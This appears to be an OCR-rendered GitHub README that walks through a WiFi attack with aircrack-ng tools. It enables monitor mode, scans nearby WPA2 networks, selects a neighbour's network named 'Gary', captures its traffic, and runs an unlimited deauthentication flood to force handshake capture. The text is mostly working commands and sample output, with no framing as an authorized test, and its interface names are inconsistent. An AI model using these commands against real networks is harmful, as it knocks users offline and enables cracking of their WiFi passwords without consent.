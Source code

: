 ```bash
iwconfig  #find wifi interface which is wlan1

# lo        no wireless extensions.

# eth0      no wireless extensions.

# wlan0     IEEE 802.11AC  ESSID:"BobWifi"  Nickname:"WIFI@XXXXXX"
#           Mode:Managed  Frequency:5.785 GHz  Access Point: XX:XX:XX:XX:XX 
#           Bit Rate:434 Mb/s   Sensitivity:0/0  
#           Retry:off   RTS thr:off   Fragment thr:off
#           Power Management:off
#           Link Quality=57/100  Signal level=-68 dBm  Noise level=0 dBm
#           Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
#           Tx excessive retries:0  Invalid misc:0   Missed beacon:0

# wlan1     IEEE 802.11  ESSID:off/any  
#           Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
#           Retry short limit:7   RTS thr:off   Fragment thr:off
#           Power Management:off
```

```bash
sudo airmon-ng start wlan0 #start monitor mode
sudo airmon-ng #check monitor mode

# PHY     Interface       Driver          Chipset

# phy0    wlan0           rtl8821cu       Realtek Semiconductor Corp. 802.11ac NIC
# phy1    wlan1mon        ath9k_htc       Qualcomm Atheros Communications AR9271 802.11n
```

```bash
sudo airodump-ng wlan0mon #Scan SSID and Channels

   get BSSID                                  get CH
# BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
#  XX:XX:XX:XX:XX:XX  -72       65       22    0   1  130   WPA2 CCMP   PSK  Bob              
#  XX:XX:XX:XX:XX:XX  -75       42        3    0  10  360   WPA2 CCMP   PSK  Ace                 
#  XX:XX:XX:XX:XX:XX  -74       59       18    0  11  260   WPA2 CCMP   PSK  Gary    
```

ESSID = Gary  
BSSID = XX:XX:XX:XX:XX:XX  
CH = 11  

Open 2 terminals  

```bash
#1st terminal -> takes CH 11 and BSSID XX:XX:XX:XX:XX:XX  as input
sudo airodump-ng -w GaryDump -c 11 --bssid XX:XX:XX:XX:XX:XX wlan1mon
#2nd terminal -> takes BSSID as input
sudo aireplay-ng --deauth 0 -a XX:XX:XX:XX:XX:XX wlan1mon
```
